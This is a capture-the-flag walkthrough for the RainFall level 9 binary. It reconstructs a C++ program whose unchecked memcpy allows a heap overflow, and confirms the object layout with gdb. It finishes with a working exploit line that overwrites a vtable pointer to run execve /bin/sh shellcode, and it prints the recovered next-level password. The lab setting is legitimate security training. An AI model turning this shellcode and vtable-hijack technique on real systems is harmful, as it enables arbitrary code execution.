 # Level 9

## Answer
Our CPP source code generates the same assembly code as the original binary. Compile it as follows:
```
g++ -fno-stack-protector source.c
```

Let's take a look at the source code:
```cpp
#include <cstring>
#include <cstdlib>

class N
{
private:
    // int vtable;
    char annotation[100];
    int nbr;

public:
    N(int val) : nbr(val) {}

    void setAnnotation(char *ann) { std::memcpy(this->annotation, ann, std::strlen(ann)); }

    virtual int operator+(N &other) { return this->nbr + other.nbr; }
    virtual int operator-(N &other) { return this->nbr - other.nbr; }
};

int main(int argc, char **argv)
{
    if (argc <= 1)
        exit(1);

    N *ptr1 = new N(5);
    N *ptr2 = new N(6);

    N &ref1 = *ptr1;
    N &ref2 = *ptr2;

    ref1.setAnnotation(argv[1]);

    return ref2 + ref1;
}
```

Let's focus on the `main` function. It reads input from the command line and then copies it to the `annotation` buffer using `memcpy`. Although `memcpy` is generally considered safe, in this case, we're copying the input without checking its size, which can lead to a buffer overflow. The `setAnnotation` function is called on the first object, allowing us to overflow the first object's buffer and potentially reach the second object's VTable address.

The VTable contains pointers to the virtual functions of the class. When a virtual function is called, the program looks up the VTable to find the address of the function to call. Therefore, by overwriting the VTable pointer, we can manipulate the virtual function call.
> Learn more about Vtables [here](https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/).

If we overwrite the VTable pointer with the address of a function or location of our choice, the program will jump to that address instead of the VTable. Then, it will perform another jump, thinking it's jumping to the function pointed to by the VTable. However, it will actually be jumping to our address, allowing us to execute arbitrary code.

We'll use `ltrace` to understand the memory allocations and calculate the size needed for the overflow:
```bash
level9@RainFall:~$ ltrace ./level9 test
[...]
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a008 #ptr1
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280) = 0x804a078 #ptr2
[...]
```
The `_Znwj` function creates a new `N` object. We can see our two objects are allocated at addresses `0x804a008` and `0x804a078` which are 112 bytes apart.

We assume the following memory layout for each object:  
`[vtable (4 bytes)] [annotation (100 bytes)] [value (4 bytes)] [padding (4 bytes)]`.

Let's confirm our assumptions with `gdb`:
```bash
# Break at the setAnnotation function
(gdb) break _ZN1N13setAnnotationEPc
Breakpoint 1 at 0x8048714

# Run the program with a 112 bytes long input
(gdb) run `python -c 'print("A" * 112)'`
Starting program: /home/user/level9/level9 `python -c 'print("A" * 112)'`

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) x/56wx 0x804a008
# This is ptr1
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000005 is the value of nbr
# 0x00000071 is the value of the padding
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
# This is ptr2
# 0x08048848 is the address of the vtable
# 0x00000000 is the value of annotation
# 0x00000006 is the value of nbr
# 0x00020f21 is the value of the padding
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21

# Continue execution
(gdb) step
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()

# As expected, the vtable pointer is overwritten with the input
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x41414141      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

Our assumptions are correct, so to reach the VTable pointer of `ptr2`, we'll need to write 108 bytes of padding. Anything written after that will overwrite the VTable pointer.

Let's craft our payload:
```
address of the shellcode + shellcode + padding + address pointing to the shellcode address

0x0804a008 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A"*(108-4-4-21) + 0x0804a00c

-4 bytes for the address of the shellcode
-4 bytes for the address pointing to the shellcode address
-21 bytes for the shellcode
```

As mentioned before, we'll have to jump twice to reach the shellcode. The first jump is to get to the shellcode address, and the second jump is to get to the shellcode itself.

Let's run our payload:
```bash
level9@RainFall:~$ ./level9 `python -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 83 + "\x08\x04\xa0\x0c"[::-1])'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

We are now bonus0! Let's move on to the next level.
